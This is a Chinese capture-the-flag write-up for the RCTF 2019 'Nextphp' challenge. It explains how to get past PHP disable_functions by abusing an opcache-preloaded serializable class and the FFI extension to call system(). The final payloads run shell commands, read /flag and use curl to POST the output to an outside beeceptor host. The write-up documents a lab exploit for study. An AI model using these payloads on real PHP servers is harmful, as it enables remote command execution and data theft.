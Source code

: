 # \[RCTF 2019]Nextphp

## \[RCTF 2019]Nextphp

## 考点

* PHP FFI
* PHP opcache
* bypass disable\_functions

## wp

给了个shell的源码

```php
<?php
if (isset($_GET['a'])) {
    eval($_GET['a']);
} else {
    show_source(__FILE__);
}
```

`?a=phpinfo();`看到phpinfo中设置了disable\_functions

![](<../../.gitbook/assets/image (8) (1) (1) (1) (1).png>)

`?a=var_dump(scandir('/'));`提示没有权限，`?a=var_dump(scandir('.'));`看到两个文件，index.php和preload.php。再读取preload.php

```php
<?php
final class A implements Serializable {
    protected $data = [
        'ret' => null,
        'func' => 'print_r',
        'arg' => '1'
    ];

    private function run () {
        $this->data['ret'] = $this->data['func']($this->data['arg']);
    }

    public function __serialize(): array {
        return $this->data;
    }

    public function __unserialize(array $data) {
        array_merge($this->data, $data);
        $this->run();
    }

    public function serialize (): string {
        return serialize($this->data);
    }

    public function unserialize($payload) {
        $this->data = unserialize($payload);
        $this->run();
    }

    public function __get ($key) {
        return $this->data[$key];
    }

    public function __set ($key, $value) {
        throw new \Exception('No implemented');
    }

    public function __construct () {
        throw new \Exception('No implemented');
    }
}
```

实际上还是要仔细观察phpinfo，可以看到设置了opcache.preload，启用了FFI，禁用了反射类

```
opcache.preload：/var/www/html/preload.php
open_basedir：/var/www/html
disable_classes：ReflectionClass
disable_functions:
```

![](<../../.gitbook/assets/image (16).png>)

![](<../../.gitbook/assets/image (5) (1) (1) (1).png>)

[opcache.preload](https://www.php.net/manual/en/opcache.configuration.php#ini.opcache.preload) 是 **PHP7.4** 中新加入的功能。如果设置了 [opcache.preload](https://www.php.net/manual/en/opcache.configuration.php#ini.opcache.preload) ，那么在所有Web应用程序运行之前，服务会先将设定的 **preload** 文件加载进内存中，使这些 **preload** 文件中的内容对之后的请求均可用。更多细节可以阅读：[https://wiki.php.net/rfc/preload](https://wiki.php.net/rfc/preload) ，在这篇文档尾巴可以看到如下描述：

> In conjunction with ext/FFI (dangerous extension), we may allow FFI functionality only in preloaded PHP files, but not in regular ones

大概意思就是说允许在 **preload** 文件中使用 **FFI** 拓展，但是文档中说了 **FFI** 是一个危险的拓展，而这道题目却开启了 **FFI** 拓展。我们可以参考文档：[https://wiki.php.net/rfc/ffi](https://wiki.php.net/rfc/ffi) 中的例子：

```php
<?php
// create FFI object, loading libc and exporting function printf()
$ffi = FFI::cdef(
    "int printf(const char *format, ...);", // this is regular C declaration
    "libc.so.6");
// call C printf()
$ffi->printf("Hello %s!\n", "world");
```

如果不设置 **FFI::cdef** 的第二个参数，也可以调用 **C** 函数。那么命令执行函数格式如下

```php
<?php
$ffi = FFI::cdef("int system(const char * command);");
$ffi->system("whoami");
```

preload.php中定义了A类，实现了Serializable接口，`__unserialize()`函数会在反序列化时被调用。这一特性是在PHP7.4中新加入的，具体可参考：[https://wiki.php.net/rfc/custom\_object\_serialization](https://wiki.php.net/rfc/custom\_object\_serialization)

```php
<?php
final class A implements Serializable {
    protected $data = [
        'ret' => null,
        'func' => 'FFI::cdef',
        'arg' => 'int system(char *command);'
    ];
    public function serialize (): string {
        return serialize($this->data);
    }
    public function unserialize($payload) {
        $this->data = unserialize($payload);
        $this->run();
    }
    public function __get ($key) {
        return $this->data[$key];
    }
    public function __set ($key, $value) {
        throw new \Exception('No implemented');
    }

}
echo base64_encode(serialize(new A()));
// QzoxOiJBIjo4OTp7YTozOntzOjM6InJldCI7TjtzOjQ6ImZ1bmMiO3M6OToiRkZJOjpjZGVmIjtzOjM6ImFyZyI7czoyNjoiaW50IHN5c3RlbShjaGFyICpjb21tYW5kKTsiO319I7fX0
```

传入`?a=var_dump(unserialize(base64_decode("QzoxOiJBIjo4OTp7YTozOntzOjM6InJldCI7TjtzOjQ6ImZ1bmMiO3M6OToiRkZJOjpjZGVmIjtzOjM6ImFyZyI7czoyNjoiaW50IHN5c3RlbShjaGFyICpjb21tYW5kKTsiO319")));`

![](<../../.gitbook/assets/image (34) (1) (1) (1) (1).png>)

触发`A::run()`从而把FFI对象返回给`A->data['ret']`，再用`A::__get()`函数就可以获取FFI对象了

`?a=var_dump(unserialize(base64_decode("QzoxOiJBIjo4OTp7YTozOntzOjM6InJldCI7TjtzOjQ6ImZ1bmMiO3M6OToiRkZJOjpjZGVmIjtzOjM6ImFyZyI7czoyNjoiaW50IHN5c3RlbShjaGFyICpjb21tYW5kKTsiO319"))->__get('ret'));`

![](<../../.gitbook/assets/image (2) (1) (1).png>)

最后payload

```
?a=var_dump(unserialize(base64_decode("QzoxOiJBIjo4OTp7YTozOntzOjM6InJldCI7TjtzOjQ6ImZ1bmMiO3M6OToiRkZJOjpjZGVmIjtzOjM6ImFyZyI7czoyNjoiaW50IHN5c3RlbShjaGFyICpjb21tYW5kKTsiO319"))->__get('ret')->system("echo `ls /` > 1.txt;curl -v -X POST 'https://peri0d.free.beeceptor.com/my/api/' -d @1.txt"));
?a=var_dump(unserialize(base64_decode("QzoxOiJBIjo4OTp7YTozOntzOjM6InJldCI7TjtzOjQ6ImZ1bmMiO3M6OToiRkZJOjpjZGVmIjtzOjM6ImFyZyI7czoyNjoiaW50IHN5c3RlbShjaGFyICpjb21tYW5kKTsiO319"))->__get('ret')->system("echo `cat /flag` > 1.txt;curl -v -X POST 'https://peri0d.free.beeceptor.com/my/api/' -d @1.txt"));
```

![](<../../.gitbook/assets/image (35) (1) (1).png>)

## 小结

1. [RCTF2019Web题解之nextphp](https://mochazz.github.io/2019/05/21/RCTF2019Web%E9%A2%98%E8%A7%A3%E4%B9%8Bnextphp/#nextphp)
